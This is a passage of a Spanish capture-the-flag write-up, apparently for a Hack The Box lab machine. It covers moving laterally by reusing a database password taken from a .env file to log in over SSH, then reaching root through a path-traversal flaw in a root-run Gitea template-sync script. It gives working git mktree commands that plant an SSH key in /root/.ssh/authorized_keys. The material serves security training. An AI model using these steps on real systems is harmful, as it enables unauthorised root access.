

Ya tenemos un punto de apoyo dentro de la máquina. El siguiente paso es enumerar el sistema para movernos hacia un usuario con mayores privilegios.

## 3. Movimiento Lateral (Pivotando a jones)

### Enumeración como www-data

Como `www-data` no es un usuario interactivo, nuestro objetivo es movernos a un usuario real. Listamos los usuarios con directorio personal:

```bash
ls -la /home
```

```text
drwxr-x---  2 git   git   4096 May 12 12:27 git
drwxr-x---  3 jones jones 4096 May 12 12:26 jones
```

Aparecen dos usuarios: `git` (asociado al servicio Gitea) y **`jones`**, que ya habíamos visto como usuario de Gitea durante la enumeración.

Lo primero que revisamos es el fichero de configuración `.env` real de la aplicación Krayin, que ahora sí es accesible desde el sistema de ficheros (recordemos que el del repositorio estaba vacío):

```bash
cat ~/krayin/.env
```

```text
APP_KEY=base64:n4swv+4YcBtCr1OPHBe69GxK06/X1y1vCQU1SIMIC7Q=
...
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=y27xb3ha!!74GbR
...
```

Aquí encontramos la **contraseña real de la base de datos**: `y27xb3ha!!74GbR` (distinta de la que vimos filtrada en el historial de Git). Revisamos también los servicios que escuchan localmente:

```bash
ss -tlnp
```

```text
LISTEN 0 151       127.0.0.1:3306    0.0.0.0:*     # MySQL
LISTEN 0 70        127.0.0.1:33060   0.0.0.0:*     # MySQL X Protocol
LISTEN 0 4096      127.0.0.1:3000    0.0.0.0:*     # Gitea (proxyado por nginx en git.nexus.htb)
LISTEN 0 511         0.0.0.0:80      0.0.0.0:*     # nginx
LISTEN 0 4096        0.0.0.0:22      0.0.0.0:*     # SSH
```

### Reutilización de credenciales → SSH como jones

Con una contraseña válida en la mano, el siguiente paso lógico ante un usuario del sistema como `jones` es comprobar si existe **reutilización de credenciales**. Probamos a autenticarnos por SSH.

La contraseña del `.env` resulta ser válida también para la cuenta de `jones`, concediéndonos acceso por SSH como un usuario legítimo del sistema:

```text
nexus ssh jones@nexus.htb                  
The authenticity of host 'nexus.htb (10.129.176.242)' can't be established.
ED25519 key fingerprint is: SHA256:OZNUeTZ9jastNKKQ1tFXatbeOZzSFg5Dt7nhwhjorR0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nexus.htb' (ED25519) to the list of known hosts.
jones@nexus.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-111-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Oct 20 07:10:22 PM UTC 2026

  System load:           0.0
  Usage of /:            66.7% of 6.48GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.176.242
  IPv6 address for eth0: dead:beef::a0de:adff:fe6a:4332

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
jones@nexus:~$ ls
user.txt
jones@nexus:~$ cat user.txt 
[REDACTED]
```


Con la primera flag capturada, pasamos a la fase de escalada de privilegios hacia `root`.


## 4. Escalada de Privilegios (Root)

### Enumeración: un timer sospechoso

Tras descartar los vectores habituales (`sudo -l` sin permisos, SUID/SGID estándar, sin capabilities útiles —el `pam_cap` apuntaba al fichero de ejemplo por defecto—, y sin credenciales nuevas en la base de datos), revisamos los *timers* de systemd en busca de tareas periódicas:

```bash
systemctl list-timers
```

```text
NEXT                        LEFT     LAST                        PASSED       UNIT                         ACTIVATES
Wed 2026-10-21 18:15:06 UTC  51s     Wed 2026-10-21 18:14:06 UTC  8s ago      gitea-template-sync.timer    gitea-template-sync.service
...
```


Entre los *timers* del sistema destaca uno que **no es estándar** de Ubuntu: `gitea-template-sync.timer`, que se ejecuta **cada minuto**. Inspeccionamos la unidad y el servicio que dispara:

```bash
systemctl cat gitea-template-sync.timer gitea-template-sync.service
```

```text
# /etc/systemd/system/gitea-template-sync.service
[Unit]
Description=Sync Gitea templates
After=network-online.target

[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
```

Dos datos críticos: el servicio corre como **`User=root`** y ejecuta un script Python en `/etc/gitea/template-sync.py`. Ese script sí es legible por nuestro usuario:

```bash
cat /etc/gitea/template-sync.py
```

### Análisis de la vulnerabilidad (Path Traversal → escritura arbitraria como root)

El script, resumido, hace lo siguiente **como root, cada minuto**:

1. Consulta la API de Gitea y selecciona los repositorios marcados como **template** (`template: true`).
2. Por cada uno, lee el repositorio *bare* en disco (`/var/lib/gitea/data/gitea-repositories/<owner>/<name>.git`) listando sus ficheros con `git ls-tree -r HEAD` y extrayendo el contenido de cada *blob* con `git cat-file blob`.
3. Escribe cada fichero en un directorio de *staging*:

```python
def sync_template(repo_info):
    owner = repo_info['owner']['login']
    name = repo_info['name'].lower()
    ...
    stage_path = os.path.join(STAGING_DIR, owner, name)   # /home/git/template-staging/<owner>/<name>
    ...
    for mode, objhash, filepath in entries:
        target = os.path.join(stage_path, filepath)       # <-- filepath NO se sanea
        target_dir = os.path.dirname(target)
        os.makedirs(target_dir, exist_ok=True)            # crea directorios como root
        ...
        with open(target, 'wb') as f:                     # escribe como root
            f.write(cat_result.stdout)
        if mode == '100755':
            os.chmod(target, 0o755)                        # incluso con bit de ejecución
```

El fallo está en que **`filepath` proviene directamente de `git ls-tree` y no se valida**. Si uno de los ficheros del repositorio *template* tiene una ruta con *path traversal* (`../../../...`), el `os.path.join(stage_path, filepath)` genera una ruta que, al resolverse en el sistema de ficheros, **sale del directorio de *staging* y apunta a cualquier ubicación del sistema**. Como el proceso corre como root y además crea los directorios intermedios (`os.makedirs`), disponemos de una **escritura de ficheros arbitraria como root** (CWE-22).

El plan de explotación es, por tanto:

1. Crear un repositorio en Gitea (ya tenemos acceso como `jones`) y marcarlo como **template**.
2. Introducir en él un fichero cuya ruta en el árbol de Git contenga un *path traversal* apuntando a una ubicación sensible — por ejemplo `/root/.ssh/authorized_keys` con nuestra clave pública.
3. Esperar a que el *timer* ejecute el *sync* (≤ 1 minuto) y conectarnos por SSH como `root`.

El único reto técnico es que Git no permite, por las vías normales, versionar un fichero cuya ruta contenga `..`. Lo resolveremos construyendo el árbol de Git manualmente con comandos de *plumbing* (`git mktree`).


### Explotación: escritura arbitraria como root vía repo template

**1. Generamos una clave SSH** que colocaremos en el `authorized_keys` de root:

```bash
ssh-keygen -t ed25519 -f root_key -N ''
```

**2. Creamos el repositorio en Gitea** (como `jones`), inicializándolo con un README.


Importante lo marcamos como **Template** en *Settings* (requisito para que el script lo procese). Lo verificamos por API:

```bash
curl -s "http://git.nexus.htb/api/v1/repos/jones/hackeado" | grep -o '"template":[a-z]*'
```

```text
"template":true
```



**3. Forjamos el árbol malicioso.** Como Git no permite versionar rutas con `..` por las vías habituales, construimos el árbol a mano con *plumbing* (`git mktree`), anidando directorios `..` hasta salir del *staging* y alcanzar `/root/.ssh/authorized_keys`:

```bash
git clone http://jones:'<PASSWORD>'@git.nexus.htb/jones/hackeado.git
cd hackeado

# blob con nuestra clave pública
blob=$(git hash-object -w ../root_key.pub)

# Árbol real: root/.ssh/authorized_keys
t=$(printf '100644 blob %s\tauthorized_keys\n' "$blob" | git mktree)
t=$(printf '040000 tree %s\t.ssh\n'            "$t"   | git mktree)
t=$(printf '040000 tree %s\troot\n'            "$t"   | git mktree)

# Prefijo de path traversal: 6 niveles de '..' para remontar hasta '/'
for i in $(seq 1 6); do t=$(printf '040000 tree %s\t..\n' "$t" | git mktree); done

# Commit y push forzado a la rama por defecto
c=$(git commit-tree "$t" -m pwn)
git push -f origin "${c}:refs/heads/main"
```

> **Nota (zsh):** hay que escribir `"${c}:refs/heads/main"` con llaves. Sin ellas, zsh interpreta `:r` como un modificador de expansión y rompe el *refspec*.

Al hacer el *push*, el propio Git nos confirma indirectamente que el *traversal* está en el árbol, al intentar leer atributos **fuera** del repositorio:

```text
advertencia: no es posible acceder '../../../../../../root/.ssh/.gitattributes': Permiso denegado
...
 + b073ac2...c7b6f7f  c7b6f7f...  -> main (forced update)
```

**4. Esperamos a que salte el *timer*** (≤ 1 minuto). El servicio, corriendo como root, lee nuestro repo *template*, extrae el fichero siguiendo la ruta con `..` y escribe nuestra clave pública en `/root/.ssh/authorized_keys` (creando el directorio `.ssh` por el camino). Nos conectamos por SSH como **root**:

```bash
ssh -i root_key root@nexus.htb
```

```text
root@nexus:~# whoami
root
root@nexus:~# cat /root/root.txt
[REDACTED]
```




---
<div align="center">
  <small>
    © 2026 David Veiga (D4vKry). Este trabajo está distribuido bajo una licencia <a href="https://creativecommons.org/licenses/by-nc-sa/4.0/deed.es" target="_blank">CC BY-NC-SA 4.0</a>.
  </small>
</div>

